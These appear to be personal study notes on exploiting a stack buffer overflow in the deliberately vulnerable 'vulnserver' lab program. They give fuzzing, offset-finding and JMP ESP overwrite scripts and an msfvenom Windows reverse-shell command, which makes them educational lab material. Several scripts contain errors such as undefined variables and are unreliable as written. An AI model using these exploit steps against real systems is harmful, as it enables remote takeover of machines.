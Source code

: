 ```yaml
---
title: "Buffer Overflow"
date: 2023-12-2T09:13:36-06:00
draft: false
toc: false
images:
tags:
  - Book
---
```


## Memory Anatomy
![[Pasted image 20230607054321.png]]
### inside the stack we have these registers:-  
![[Pasted image 20230607054352.png]]
### Safe if it contain everything inside the Buffer Space
![[Pasted image 20230607064222.png]]
### If this was the case of Buffer over flow then
in Buffer overflow case it will overflow flow from buffer space to EBP and after EBP to EIP and this is where things get interesting
![[Pasted image 20230607064447.png]]

this is Return address and we will point this address toward our malicious code 

## How we can do Buffer overflow 
1. Spiking :- Here we will find which part of the program is vulnerable
2. Fuzzing :- sending some random character to test it when it will break(find breaking point of the program)
3. Finding the offset :- at which point the program break it
4. overwrite the EIP :- we will modify the return address
5. Finding the bad character :- you need to find the bad character which will not produce error in output
6. Finding the right module :-
7. Generating the shell code :- you need the Payload written without the bad character so that the application can execute it without any error
8. Root it :- You get the shell 

## Practical

1. preparation
 -> Run vulnserver and immunity as an administrator`immunity` is an application debugger it give us real time info about any application. (we need to attach those application to immunity)
 -> we will use our kali Linux to `connect` to the server `[nc -nv <ip address><port>]`
 -> we will figure out if the server take any input or command (it should accept command so that we can test it through `spiking`)
 -> we will take one command at a time a try to overflow it if we are able to do that we can succeed  in overflowing 
 -> we will use [[Generic send tcp]]  >>`generic_send_tcp`<<
 -> this is the "STATS.spk" command which will be used in 5
```c
s_readline();
s_string("STATS ");
s_string_variable("0");
```
[[STATS .spk]]

`[generic_send_tcp <host/ip> <port> <spike script> <skip variable> <skip variable>]`

###### Spiking vs Fuzzing
Spiking :- here we are trying to attack multiple command to find the vulnerability 
Fuzzing :- Here we are try to focus on 1 input (CMD)

**Note :-** They both are same one is in c and send is in python script

2. here we will use `Fuzzing` to attack the trun command which we found vulnerable in spiking.
 -> here is code written in python 
```python
#!/usr/bin/python3
import sys, socket 
from time import sleep
buffer = "A" * 100
while True:
	try:
		 payload = "TRUN /.:/" + buffer
		 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		 s.connect(('192.168.43.2',9999))
		 print ("[+] Sending the payload...\n" + str(len(buffer)))
		 s.send((payload.encode()))
		 s.close()
		 sleep(1)
		 buffer = buffer + "A"*100
	except:
		print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```

by `fuzzing` we will find the approx. value where it will crash
3. Now we will use Metasploit framework to `find the offset` value `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb`
4. in pattern create `pattern_create.rb -l 3000 ` it will generate a character with length of 3000
```python
#!/usr/bin/python
import sys, socket 

buffer = "pattern_create.rb -l 3000" 
try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.43.2',9999))

	payload = "TRUN /.:/" + offset

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()

```
it will send the pattern with 3000 length
11. Now after sending this pattern we will check if the pattern is in `EIP` `register` or not if it is then what is the position
12. we will find the position using `pattern_offset.rb -l 3000 -q <eip value>` the ans tell us that at this point we can control the EIP
13. For confirmation we can use one test for the server.<--->
15. https://github.com/cytopia/badchars we will use this link to get the all the character 
16. we will test all the character and find which is the bad character 
```python
#!/usr/bin/python
import sys, socket
badchars ="  "
shellcode = "A" * <offset_point no/ Breakdown point no> + "B" * 4 + badchars
try:
	payload = "TRUN /.:/" + Shellcode 
	 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)   
	 s.connect(('192.168.43.2',9999))  
	 print ("[+] Sending the payload...\n" + str(len(buffer))) 
	 s.send((payload)) 
	 s.close() 
	 sleep(1) 	 
except: 
	print ("Error connecting server")
	sys.exit()
```

Here we will check the `ESP > follow and dump` here we will look from "01" to "FF" 
15. Find the bad character form `hex dump`

![[Pasted image 20230610095602.png]]

**NOTE** `if we get two consecutive no then the 1st number will be the bad character if we have only one number then it is OK `

16. finding the Right module using `mona module` 
 -> to start mona load it into default file 
 -> `[!mona modules]` to start mona module :- here we are looking for something which don't have any memory protection 
 -> Finding offcode equivalent of jump
 -> use `nasm_shell.rb`here we are trying to convert assembly language to hex code `JMP ESP`
 -> `mona find -s "\xff\xe4" -m <essfun.dll>(vulnerable dll should be here) ` 
 -> now we will use the jump code `625011af` and use it in `shellcode = "A"*2003+"\xaf\x11\x50\x62"` this is ndn formate here assembly lang use low byte in lower address and high order byte in high address
 ```python
#!/usr/bin/python3

import sys, socket
from time import sleep
#625011af
shellcode = "A" * 2003 + "\xaf\x11\x50\x62"
try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.43.2',9999))
	payload = "TRUN /.:/" + shellcode
	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
 -> we will catch this expression in immunity by `expression to follow dialog`box and `set a break point `using `F2`
-> Run the code
17. Now use metasploit Framework `msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=4444 EXITFUNc=thread -f c -a x86 -b"\x00" `
**Note** payload size
18. use a new shellcode 
```python
#!/usr/bin/python3

import sys, socket
from time import sleep
shellcode = "you have to write the shell code"
shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + shellcode
try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.43.2',9999))
	payload = "TRUN /.:/" + shellcode
	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
"\\x90" * 32 it is known as nop NO OPERATION
19. listen through one port 
20. Run the program to get the shell

[[testing buffer overflow]]

